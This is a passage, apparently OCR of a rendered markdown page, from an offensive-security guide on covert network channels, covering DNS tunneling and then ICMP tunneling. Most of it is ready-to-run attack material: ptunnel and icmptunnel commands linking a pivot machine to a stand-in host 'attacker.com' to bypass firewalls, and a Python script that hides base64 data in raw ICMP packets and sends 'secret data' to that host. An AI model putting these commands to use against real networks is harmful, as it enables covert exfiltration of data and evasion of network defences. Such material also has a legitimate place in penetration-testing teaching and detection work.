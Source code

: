 ```bash
sleep $(( RANDOM % 10 + 1 ))

# Use legitimate DNS record types
dig A random.example.com
dig TXT random.example.com  
dig MX random.example.com

# Why DNS tunneling is effective:
# - Uses legitimate network protocol
# - Bypasses most firewall restrictions
# - Difficult to detect without deep analysis
# - Works in highly restrictive environments
# - Supports bidirectional communication
```

### **ICMP Tunneling**

**What ICMP tunneling is:** Technique that encodes data within ICMP (ping) packets to create covert communication channels through firewalls.

**Why ICMP tunneling works:** ICMP traffic is commonly allowed for network diagnostics, appears as legitimate ping traffic, and is rarely inspected deeply.

```bash
# ICMP tunneling tools

# ptunnel - ICMP tunnel over ping packets
# Server setup (attacker machine)
sudo ptunnel -x password

# Client setup (pivot machine)
sudo ptunnel -p attacker.com -lp 8080 -da 192.168.1.100 -dp 80 -x password
# Tunnels local port 8080 to 192.168.1.100:80 through ICMP

# icmptunnel - Lightweight ICMP tunnel
# Server setup
sudo ./icmptunnel -s

# Client setup
sudo ./icmptunnel -c attacker.com

# Custom ICMP tunneling with Python
cat > icmp_tunnel.py << 'EOF'
#!/usr/bin/env python3
import socket
import struct
import base64

def create_icmp_packet(data):
    # ICMP header: type (8), code (0), checksum (0), id, sequence
    icmp_header = struct.pack('!BBHHH', 8, 0, 0, 1, 1)
    # Encode data and embed in ICMP payload
    encoded_data = base64.b64encode(data.encode()).decode()
    packet = icmp_header + encoded_data.encode()
    return packet

def send_icmp_data(target, data):
    sock = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_ICMP)
    packet = create_icmp_packet(data)
    sock.sendto(packet, (target, 0))
    sock.close()

# Usage
send_icmp_data("attacker.com", "secret data")
```